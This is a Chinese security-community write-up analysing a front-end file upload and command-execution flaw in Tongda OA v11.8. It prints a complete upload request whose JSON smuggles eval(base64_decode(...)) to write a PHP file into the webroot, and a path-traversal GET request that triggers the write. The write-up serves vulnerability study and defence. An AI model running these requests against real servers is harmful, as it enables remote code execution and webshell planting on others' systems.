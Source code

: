 

# 通达 v11.8 前台文件上传&命令执行漏洞利用分析 - 先知社区

通达 v11.8 前台文件上传&命令执行漏洞利用分析

- - -

## api.ali.php 任意文件上传

### 影响版本

v11.8

### 漏洞复现过程：

漏洞原理是通过文件上传上传一个 json 文件，再通过调用程序去解析 json 文件执行里面 php 语句

首先需要上传一个 json 文件

完整数据包：

```plain
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream


{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIGVjaG8gdnVsbl90ZXN0Oz8+Jyk7","dataAnalysis":"{\"a\":\"錦',eval(base64_decode($BackData[a])));/*\"}"}

--502f67681799b07e4de6b503655f5cae--
```

接着发送 get 请求写入文件，成功在 webroot 目录下写入 fb6790f4.php，2109 为年月份

```plain
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

### 分析过程

文件上传功能实现的地方在 mobile/api/api.ali.php 文件下

其中包含了 conn.php、api.api.class.php、utility\_file.php 三个文件，这三个文件都是负责加载通达的配置信息以及通用函数，不涉及权限验证
